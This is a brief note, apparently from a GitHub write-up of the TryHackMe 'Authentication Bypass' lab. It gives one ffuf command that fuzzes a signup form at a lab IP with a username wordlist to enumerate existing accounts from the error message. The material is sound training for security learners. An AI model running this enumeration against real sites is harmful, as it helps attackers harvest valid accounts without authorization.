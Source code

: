 https://tryhackme.com/room/authenticationbypass
command bellow will output all username that are a match in the wordlist provided (names.txt) 
           
`ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.18.108/customers/signup -mr "username already exists"`

        ![Captdure](https://github.com/user-attachments/assets/0f472efa-f690-44cc-a6f9-caf25e11cd12)
